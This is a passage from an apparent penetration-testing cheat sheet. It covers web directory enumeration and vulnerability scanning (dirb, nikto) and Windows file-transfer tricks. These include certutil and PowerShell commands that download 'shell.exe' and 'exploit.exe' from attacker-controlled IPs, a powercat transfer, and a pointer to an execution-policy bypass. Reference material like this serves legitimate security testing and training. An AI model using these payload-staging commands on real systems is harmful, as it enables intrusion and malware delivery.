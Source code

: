 ### dirb
```bash
dirb <URL> -z 10
```

### dirbuster
Similar to dirb but with GUI

### ffuf - fuzz faster u fool
TODO: insert command


### Webapplication Vulnerability Scan / nikto
```bash
nikto -host=<URL>
```

# File Transfer and File Downloads

## Windows
### Download files with certutil
```cmd
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
```
Example:
```cmd
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```

### Downlaod files with Powershell
Oneliner:
```cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','<TARGET-FILENAME>')"
```

Powershell-Script:
```cmd
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.30.5/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url, $file) >>wget.ps1
```

### Powercat Filetransfer
```powershell
PS> powercat -c <IP> -p <PORT> -i <FILENAME>
```

Execute File with: [Execute Powershell File, bypass all policies](#execute-powershell-file-bypass-all-policies)
